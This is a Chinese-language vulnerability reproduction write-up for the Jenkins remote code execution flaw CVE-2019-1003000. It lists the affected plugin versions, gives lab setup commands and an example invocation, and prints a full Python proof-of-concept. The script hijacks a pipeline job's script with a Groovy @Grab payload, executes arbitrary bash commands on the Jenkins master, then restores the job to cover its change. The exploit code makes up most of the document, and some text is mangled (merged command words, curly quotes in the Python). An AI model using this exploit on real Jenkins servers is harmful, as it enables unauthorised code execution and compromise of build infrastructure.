 # （CVE-2019-1003000）Jenkins 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2989](https://www.zhihuifly.com/t/topic/2989)

# （CVE-2019-1003000）Jenkins 远程代码执行漏洞

## 一、漏洞简介

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin 2.61.1之前的版本以及 Script Security Plugin 1.50之前的版本。该漏洞通过将AST转换注释（如@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有“Overall/Read”权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

## 二、漏洞影响

Declarative Plugin < 1.3.4.1

Groovy Plugin < 2.61.1

Script Security Plugin < 1.50

## 三、复现过程

### 环境搭建

```
gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

cdcve-2019-1003000-jenkins-rce-poc

pipinstall -r requirements.txt

cdsample-vuln `./run.sh` 
```

**输入账号密码user1:user1**

![image](img/2278077d91fc90e17aa6b30e7fe6ea6f.png)

****poc进行攻击pythonexploit.py –url http://www.0-sec.org:8080 –job my-pipeline –usernameuser1 –password user1 –cmd “whoami”****

![image](img/ab135849aefa036a7c7bf812156af549.png)

![image](img/2b69dc8a2760cd03bf35253351296021.png)

### poc

```
#!/usr/bin/python

# Author: Adam Jordan

# Date: 2019-02-15

# Repository: [https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc)

# PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)

import argparse

import jenkins

import time

from xml.etree import ElementTree

payload = ‘’’

import org.buildobjects.process.ProcBuilder

@Grab(‘org.buildobjects:jproc:2.2.3’)

class Dummy{ }

print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()

‘’’

def run_command(url, cmd, job_name, username, password):

print ‘[+] connecting to jenkins…’

server = jenkins.Jenkins(url, username, password)

```
print '[+] crafting payload...'
ori_job_config = server.get_job_config(job_name)
et = ElementTree.fromstring(ori_job_config)
et.find('definition/script').text = payload % cmd
job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

print '[+] modifying job with payload...'
server.reconfig_job(job_name, job_config)
time.sleep(3)

print '[+] putting job build to queue...'
queue_number = server.build_job(job_name)
time.sleep(3)

print '[+] waiting for job to build...'
queue_item_info = {}
while 'executable' not in queue_item_info:
    queue_item_info = server.get_queue_item(queue_number)
    time.sleep(1)

print '[+] restoring job...'
server.reconfig_job(job_name, ori_job_config)
time.sleep(3)

print '[+] fetching output...'
last_build_number = server.get_job_info(job_name)['lastBuild']['number']
console_output = server.get_build_console_output(job_name, last_build_number)

print '[+] OUTPUT:'
print console_output 
```

if **name** == ‘**main**’:

parser = argparse.ArgumentParser(description=‘Jenkins RCE’)

```
parser.add_argument('--url', help='target jenkins url')
parser.add_argument('--cmd', help='system command to be run')
parser.add_argument('--job', help='job name')
parser.add_argument('--username', help='username')
parser.add_argument('--password', help='password')

args = parser.parse_args()

run_command(args.url, args.cmd, args.job, args.username, args.password) 
``` 
```

## 参考链接

> https://www.freebuf.com/column/197026.html